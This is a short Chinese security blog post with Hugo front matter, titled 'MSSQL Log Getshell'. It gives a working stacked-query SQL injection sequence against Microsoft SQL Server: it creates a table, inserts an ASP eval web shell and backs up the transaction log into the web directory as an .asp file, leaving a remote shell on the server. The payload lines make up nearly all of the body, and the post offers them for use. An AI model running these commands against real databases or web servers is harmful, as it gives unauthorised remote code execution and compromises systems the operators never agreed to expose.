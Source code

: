 ```yaml
---
title: "MSSQL Log Getshell"
date: 2018-03-14T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['mssql','sqli']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



需要支持堆查询.

db_owner 权限即可.

<!--more-->

```
;alter database xxxx set RECOVERY FULL--
;create table cmd (a image)--
;backup log xxxx to disk = 'd:/web/1.bak' with init--
;insert into cmd (a) values ('<% eval request(1) %>')--
;backup log xxxx to disk = 'd:/web/2.asp'--
```



另外还有差异备份, 不过缺点是备份出来的文件会很大.